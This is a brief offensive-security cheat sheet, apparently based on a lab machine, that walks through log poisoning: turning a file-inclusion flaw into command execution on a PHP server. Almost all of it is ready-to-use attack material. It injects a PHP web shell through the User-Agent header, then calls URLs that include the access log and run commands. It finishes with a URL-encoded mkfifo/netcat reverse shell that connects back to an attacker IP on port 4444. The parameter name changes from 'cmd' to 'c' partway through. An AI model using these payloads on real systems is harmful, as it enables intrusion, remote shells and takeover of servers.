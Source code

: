 ```yaml
---
icon: flask-round-poison
---
```


# Log Poisoning

{% hint style="info" %}
### <mark style="color:orange;">`User-Agent`</mark> <mark style="color:purple;">poisoning:</mark>

* <mark style="color:orange;">**`allow_url_fopen`**</mark> <mark style="color:purple;">needs to be</mark> <mark style="color:orange;">**`On`**</mark>
* <mark style="color:purple;">If the</mark> <mark style="color:orange;">**`access_log`**</mark>**&#x20;**<mark style="color:purple;">**is exposed and the server is not properly sanitizing or validating**</mark> <mark style="color:purple;"></mark><mark style="color:purple;">the</mark> <mark style="color:orange;">**`User-Agent`**</mark><mark style="color:purple;">**:**</mark>&#x20;

```http
User-Agent: tokyo: <?php system($_GET['cmd']); ?>
```

* <mark style="color:purple;">From here, just visit the</mark> <mark style="color:orange;">**`URL`**</mark>

{% code overflow="wrap" %}
```url
http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&cmd=id
```
{% endcode %}

* <mark style="color:purple;">Use</mark> <mark style="color:orange;">**`ping`**</mark> <mark style="color:purple;">to check if it's possible to generate outbound network traffic back to the host:</mark>

{% code overflow="wrap" %}
```url
http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=ping 10.10.16.8
```
{% endcode %}

* <mark style="color:purple;">Catch  it with</mark> <mark style="color:orange;">**`tcpmdump`**</mark>

```sh
tcpdump -i tun0 icmp
```

* <mark style="color:purple;">Get a reverse shell:</mark>

{% code overflow="wrap" %}
```url
http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.16.8%204444%20%3E/tmp/f
```
{% endcode %}
{% endhint %}

